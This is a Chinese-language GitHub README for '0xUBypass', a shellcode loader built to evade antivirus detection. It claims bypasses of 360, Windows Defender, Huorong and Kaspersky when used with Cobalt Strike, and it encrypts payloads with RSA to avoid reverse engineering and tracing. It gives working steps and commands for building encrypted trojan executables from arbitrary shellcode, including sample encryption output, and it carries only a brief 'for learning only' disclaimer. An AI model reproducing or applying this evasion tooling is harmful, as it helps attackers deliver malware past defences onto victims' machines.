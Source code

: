 ## 0xUBypass
### Description:
这是一个基于纯汇编语言绕过动/静态检测的Shellcode Loader，也可以直接当做免杀使用，使用了2048位秘钥的RSA进行防止逆向，可以有效避免被溯源，当然，需要携带秘钥作为启动参数

### Requirements:
开发环境为VS 2017，当然你也可以适当更改代码使得它可以在新版运行，编译为64位的

shellcode要求为64位的shellcode，当然，你可以在 https://github.com/Yeuoly/0xUBypass/blob/master/WindowsShellcodeInjector/WindowsShellcodeInjector.cpp#L41 这里看到，编译出来的程序是64位的，所以shellcode得是64位

### Bypass
操作系统：Win10 64位
杀毒软件：360全家桶(360安全卫士、360杀毒)，火绒，windows defender，卡巴斯基，更多的暂时没有测试<br>
C2及版本：CobaltStrike 4.4
- [x] 360
![Alt text](README.assets/image.png)
![Alt text](README.assets/image-1.png)
- [x] Windows Defender
![Alt text](README.assets/image-2.png)
- [x] 火绒
![Alt text](README.assets/image-5.png)
![Alt text](README.assets/image-4.png)
- [x] 卡巴斯基
![Alt text](README.assets/image-3.png)

### Usages
#### 不带脑子
在
https://github.com/Yeuoly/0xUBypass/releases/tag/1.0.0
下载release，然后准备一个64位的shellcode，替换掉release中改的shellcode，然后运行即可
```go
go run go.go ./shellcode1.bin
```
会生成一个exe，点开就行，默认是弹计算器

#### 使用golang加载DLL
感谢 [A10nggg](https://github.com/A10nggg) 师傅的贡献，现在可以使用golang加载DLL了

使用方法如下

如果你不喜欢默认的C++加载器，你也可以使用golang加载器，毕竟C++的特征过于明显，很容易被杀软检测到，使用方法如下

1. 首先你需要将本项目编译为DLL
2. 使用go编译go_bundle.go生成木马文件

```bash
go run go_bundle.go muma
```
其中muma为生成的木马文件名，可以自定义，具体建议看代码

3. 将生成的木马文件和DLL文件放在同一目录下，然后运行木马文件即可

#### 直接使用
首先准备好一段shellcode（RAW编码）保存在aaa.bin（命名随意）中，然后使用UBypass进行加密，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\WindowsShellcodeInjector.exe .\calc.bin
[*] Generated Private Key => gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<=
[*] Your Padding Original Shellcode Size is 280
[*] Your Padding Encrypted Shellcode Size is 560
[*] Your Encrypted Shellcode is f30d0f241eafbe062451e23a3ede47419f06cbc36802ea49e23beb1caaa3dc008f4fa95bf85cc18235383bc8593411345e4485af8cd58a52e9500e0d5664760a99d5ef9d0727d70d582563959b016b1c2069a149cdddcd5fc
```

随后会在当前文件夹生成一个Kawaii.exe即为携带了你的shellcode的马子，使用的时候加上私钥即可，如下
```bash
PS D:\Data\fixable\code\WindowsShellcodeInjector\Release> .\Kawaii.exe 'gPT6SIbOa;od,u`vbg/;:kcS;k+=S%@ob]Cz&~\<='
```

### 免责声明
本项目仅供学习交流使用，请勿用于非法用途，否则后果自负，与本人无关

本项目仅提供一个已经编译好的dll在release中

https://github.com/Yeuoly/0xUBypass/releases/tag/1.0.0
